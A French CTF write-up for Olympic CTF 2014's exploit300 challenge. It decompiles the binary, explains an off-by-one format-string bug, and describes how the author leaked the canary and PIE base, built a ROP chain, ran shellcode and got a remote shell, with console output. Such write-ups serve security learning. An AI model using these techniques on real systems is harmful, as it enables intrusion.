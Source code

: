 Title: [OLYMPIC-CTF-2014] Exploit 300
Date: 2014-02-09
Tags: ctf
Author: Tosh
Summary: olympic-ctf exploit300 write-up

Voici un petit write-up, pour le challenge exploit300 de l'Olympic CTF 2014.

Le binaire se trouve ici : [exploit300](http://www.t0x0sh.org/repo/CTF/OLYMPIC_2014/exploit300)

Analyse du binaire

	:::console
	$ checksec --file ./exploit300
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   ./exploit300

	$ file ./exploit300
	./exploit300: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=f315607803e335f93fb56a9446862539655df265, stripped

On a donc un ELF 32 stripped, avec toutes les protections imaginable...(PIE, ASLR, SSP...)

On sent d'avance qu'il ne va pas se laisser powner facilement ;)

En analysant le binaire avec IDA, j'ai pût recoder le main() en pseudo C, ce qui donne grosso-modo :

	:::c
	int main(void) {
	    int i; // 0x30
		int len; // 0x34
		char *p; //0x38  
		char buffer1[0x100]; //0x3c

        puts("pw?");
    	read(0, buffer, 8);

    	if(memcmp(buffer, "letmein\n", 8))
        	return 1;

    	for(i = 0; i <= 0xf; i++) {
        	puts("msg?");

        	bzero(buffer, 0x100);

        	read(0, buffer, 0x80);
			len = strlen(buffer);
			
			/* [1] */
			if(strchr(buffer, 'n'))
			    return 1;
				
			/* [5] */
			p = mmap(0x11111000, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANON, -1);
			
			if(p == MAP_FAILED || p == NULL)
            	return 1;    

        	strcpy(p+0x84, "Your message (%d bytes): %s\n");

        	/* [2] */
			*((unsigned int*)(p+0x80)) = p+0x84;

        	strncpy(p, buffer, 0x80);

        	/* [3] */
			p[len] = 0;

        	/* [4] */
			sprintf(buffer, *((unsigned int*)(p+0x80)), len, p);
			puts(buffer);
			mmunmap(p, 0x1000);
	    }

        return 0;
	}




### Analyse de la vulnérabilité

* En [2], l'adresse d'une format string est stocké dans la région mappé en [5] à un offset de 0x80 bytes.
* En [3], nous avons un off by one qui permet d'écraser le dernier byte de la format string, ce qui fait pointer la format string vers le début de la région mappé, que nous controlons.
Pour déclencher le bug, il faut envoyer un buffer d'une taille de 0x80 bytes exactement.
* En [1], on voit que le caractère 'n' est filtré.
* En [4], nous avons un appel à sprintf. Vu que nous controlons la chaine de format, nous pouvons aboutir à un overflow. Le buffer de destination de sprintf étant sur la pile, nous avons un beau stack overflow.



### Les complications

* Première complication : le caractère 'n' étant filtré, nous ne pouvons donc pas utiliser la format string pour écrire en mémoire.
* Deuxième complication : il y a SSP d'activé, ce qui signifie qu'il y a un stack cookie qui protège le saved-eip.
* Troisième complication : il y a un NUL byte dans le cookie, si on souhaites le réécrire, la copie s'arrêtera, et nous ne pourrons pas écraser saved-eip.
* Quatrième complication : si on veut roper, il faudra éviter les NUL bytes, ou trouver une solution :)



### Les solutions

* Pour bypasser SSP, j'ai utilisé la format string pour leaker le cookie. J'ai également utliser la chaine de format pour leaker l'adresse de base du binaire, afin de bypasser PIE.
* Pour réécrire le NUL byte du cookie, j'ai réécris la stack en deux passes, vu qu'il y a 0xF itérations sur la vulnérabilité, on peut se le permettre.
* J'injecte mon ROP dans un premier temps, tout en réécrivant les 3 premiers bytes du cookie.
* Puis je renvois un payload pour écrire le dernier byte du cookie.
* Pour faire du ROP avec des NUL bytes, j'ai utilisé la même technique précedente. Il faut écrire la stack en partant des adresses hautes, en redescendant progressivement.



### L'exploit

* Dans un premier temps, je récupère les infos dont j'ai besoin : stack cookie et base address
* Ensuite, je réécris ma stack, qui est un ROP faisant un read(0, DATA, 0xffff) puis un pop ebp; ret suivis d'un leave; ret. Cela permet de swaper la stack vers le segment DATA.
* Puisque le troisième et le premier argument de read doit contenir des NUL bytes, je m'occupe de les "patcher"
* Je réécris ensuite mon cookie, en s'assurant de mettre un byte non NUL à la fin du cookie
* Je "patch" le dernier byte de mon cookie
* Mon premier payload (le read) est maintenant exécuté, j'envois alors une fake stack frame qui s'occupe d'éxécuter :
    1. mmap(0x11111000, 0x1000, PROT_ALL, MAP_FIXED | MAP_ANON, -1, 0)
    2. read(0, 0x11111000, 0x1000)
    3. (*)(0x11111000)()
* Il ne me reste plus qu'à envoyer un shellcode exécutant un /bin/sh, et j'obtiens mon remote shell !

Ce challenge était vraiment fun, et le bypassing de toutes ces protections m'a beaucoup plût.
Celà montre qu'il est toujours possible d'exploiter à distance de manière efficace des programmes ayant toutes les protections modernes anti-exploitation.

Vous pouvez trouver l'exploit ici : [exploit300.pl](https://github.com/t00sh/ctf/blob/master/olympic_ctf_2014/exploit300.pl)

	:::console
	$ perl exploit.pl
	[+] Connect to remote host 109.233.61.11:3129
	[+] Log in
	[+] Get the cookie
	[+] Cookie found : 0x9dbd7200
	[+] Get the base address
	[+] Base address found : 0xb7743000
	[+] Building your stack
	[+] Insert your 3vil stack frame
	[+] Patching argument 3 of read()
	[+] Patching argument 1 of read()
	[+] Rewrite the stack cookie
	[+] Patch the first cookie byte with 0x00
	[+] Build & send your fake stack frame
	[+] Sending your shellcode
	[+] And enjoy your shell
	ls -la
	total 20
	drwxr-xr-x  2 root root 4096 Feb  8 02:50 .
	drwxr-xr-x 23 root root 4096 Feb  8 02:49 ..
	-rw-r--r--  1 root root   44 Feb  8 02:49 flag
	-rwxr-xr-x  1 root root 5464 Feb  8 02:50 task
	id
	uid=65534(nobody) gid=0(root) groups=65534(nogroup),0(root)
	cat flag
	FLAG: CTF{c36d55681410edbba58daedde46fb5e8}

